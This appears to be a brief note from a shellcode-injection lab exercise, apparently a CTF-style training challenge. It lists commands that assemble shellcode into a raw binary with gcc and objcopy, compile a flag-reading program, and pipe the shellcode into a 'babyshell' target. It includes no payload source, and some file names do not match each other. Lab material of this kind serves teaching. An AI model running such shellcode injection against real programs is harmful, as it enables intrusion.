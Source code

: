 shellcode.c compilation
    gcc -static -nostdlib -o shellcode-elf shellcode.s
    objcopy --dump-section .text=shellcode-raw shellcode-elf

cayflag.c compilation
    gcc -o catflag catflag.c
    
exploit run
    (cat shellcode-raw;cat) | /babyshell_level1_teaching1
